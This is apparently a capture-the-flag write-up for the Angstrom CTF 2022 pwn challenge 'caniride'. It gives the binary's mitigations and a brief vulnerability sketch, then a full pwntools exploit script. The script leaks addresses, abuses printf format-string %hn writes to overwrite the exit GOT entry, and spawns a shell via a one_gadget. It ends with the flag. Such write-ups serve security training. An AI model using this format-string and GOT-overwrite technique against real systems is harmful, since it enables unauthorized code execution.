 ```yaml
---
title: "[Pwn] caniride [Angstrom CTF 2022]"
date: 2022-05-07 00:47:00
---
```


# 0x0 Introduction

We've developed a direct competitor to Uber, using blockchain technology.

nc challs.actf.co 31228

Author: JoshDaBosh

files: [caniride](caniride), [libc.so.6](libc.so.6)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


# 0x2 Vulnerability

todo

in simple word, use this bug to leak binary base address using `obj.__dso_handle`

```
 if (4 < var_440h) {
        sym.imp.puts("Not enough drivers! Sorry.");
        sym.imp.exit(1);
    }
```

Then use `printf("%*d", width, num)` to write data

in this case, `%{num}$0*{value_offset}$d%{addr_offset}$hn`

1. leak libc, return to main
2. write rip to one_gadget, get shell


# 0x3 Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./caniride_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe


def log_print(*msg):
    log.info(" ".join(map(str,msg)))

def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("challs.actf.co", 31228)
    return r


lp = log_print
io = start()

leak_offset = (exe.symbols["__dso_handle"] - exe.symbols["drivers"]) // 8

got_exit_0 = (((0x7ffeb326e300 - 0x3f0) - 0x7ffeb326dec0) // 8) + 6
got_exit_1 = got_exit_0 + 1
got_exit_2 = got_exit_0 + 2
val_0 = got_exit_0+3
main_addr_0 =got_exit_0 + 4
main_addr_1 =got_exit_0 + 5
main_addr_2 =got_exit_0 + 6

printf_payload = f"%{val_0}$0*{main_addr_0}$d%{got_exit_0}$hn%{val_0}$0*{main_addr_1}$d%{got_exit_1}$hn%{val_0}$0*{main_addr_2}$d%{got_exit_2}$hn"
lp("printf payload",printf_payload)
io.sendafter(b"Name: ",flat({0:[printf_payload.encode()]},length=49,filler=b"\x00"))
io.sendlineafter(b"driver: ",str(leak_offset).encode())
io.recvuntil(b"this is ")
leak_addr = int.from_bytes(io.recvuntil(b" your driver",drop=True),"little")
exe.address = leak_addr - exe.symbols["__dso_handle"]
lp("got exit",hex(exe.got["exit"]))
lp(hex(exe.address),hex(exe.symbols["drivers"]),hex(exe.symbols["__gmon_start__"]))
addr_x = [
    [exe.got["exit"]+0,exe.sym["main"] & 0xffff],
    [exe.got["exit"]+2,(exe.sym["main"] >> (8*2)) & 0xffff],
    [exe.got["exit"]+4,(exe.sym["main"] >> (8*4)) & 0xffff],
]
lp("main addr",hex(exe.sym["main"]))
addr_x.sort(key=lambda x:x[1])
io.sendafter(b"yourself: ",flat({
    0:[i[0] for i in addr_x] + [0] + [
        addr_x[0][1],
        addr_x[1][1] - addr_x[0][1],
        addr_x[2][1] - addr_x[1][1]
        ]
}))
leak_libc =  ((0x7ffeb28748c8 - 0x7ffeb2874030)  // 8) + 6
printf_payload_2 = f"%{leak_libc}$pENDL"
lp("leak libc payload",printf_payload_2)
io.sendafter(b"Name: ",printf_payload_2.encode().ljust(49,b'\x00'))
io.sendlineafter(b"driver: ",b'1')
io.sendafter(b"yourself: ",b'abc')
io.recvuntil(b"Bye, ")
tmp = io.recvuntil(b"ENDL",drop=True)
lp("libc start main return",tmp)
libc.address = int(tmp,16) - libc.libc_start_main_return
lp("libc base addr",hex(libc.address))


one_gadget = libc.address+0xe3b31 # r15 == NULL & rdx == NULL
lp("one gadget addr",hex(one_gadget))

printf_payload = f"%{val_0}$0*{main_addr_0}$d%{got_exit_0}$hn%{val_0}$0*{main_addr_1}$d%{got_exit_1}$hn%{val_0}$0*{main_addr_2}$d%{got_exit_2}$hn"
lp("printf payload",printf_payload)
io.sendafter(b"Name: ",printf_payload.encode().ljust(49,b'\x00'))
io.sendlineafter(b"driver: ",b'1')
addr_x = [
    [exe.got["exit"]+0,one_gadget & 0xffff],
    [exe.got["exit"]+2,(one_gadget >> (8*2)) & 0xffff],
    [exe.got["exit"]+4,(one_gadget >> (8*4)) & 0xffff],
]
addr_x.sort(key=lambda x:x[1])

io.sendafter(b"yourself: ",flat({
    0:[i[0] for i in addr_x] + [0] + [
        addr_x[0][1],
        addr_x[1][1] - addr_x[0][1],
        addr_x[2][1] - addr_x[1][1]
        ]
}))


io.recvuntil(b'\n')
io.interactive()

```

# 0x4 Flag

actf{h0llerin'_at_y0u_from_a_1977_mont3_car1o_a6ececa9966d}